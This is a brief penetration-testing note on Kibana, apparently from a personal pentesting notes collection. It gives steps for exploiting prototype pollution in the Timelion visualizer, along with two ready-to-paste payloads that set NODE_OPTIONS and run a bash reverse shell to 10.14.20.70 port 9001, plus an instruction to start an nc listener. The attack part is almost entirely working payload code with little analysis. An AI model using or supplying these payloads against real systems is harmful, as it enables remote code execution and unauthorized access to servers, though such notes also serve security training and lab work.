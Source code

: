 # Kibana 

Kibana provides search and data visualization capabilities for data indexed in Elasticsearch. The service runs per default on port 5601. Kibana also acts as the user interface for monitoring, managing, and securing an Elastic Stack cluster.

## HTTP

Check `http://10.10.98.43:5601/`

## Prototype pollution

![kibana](/Pentesting/_images/kibana.PNG)

## Exploit

1. Open Kibana
2. Past one of the following payload into the Timelion visualizer
4. Setup nc listener
3. Click run


Payloads:
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.14.20.70/9001 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.14.20.70/9001 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```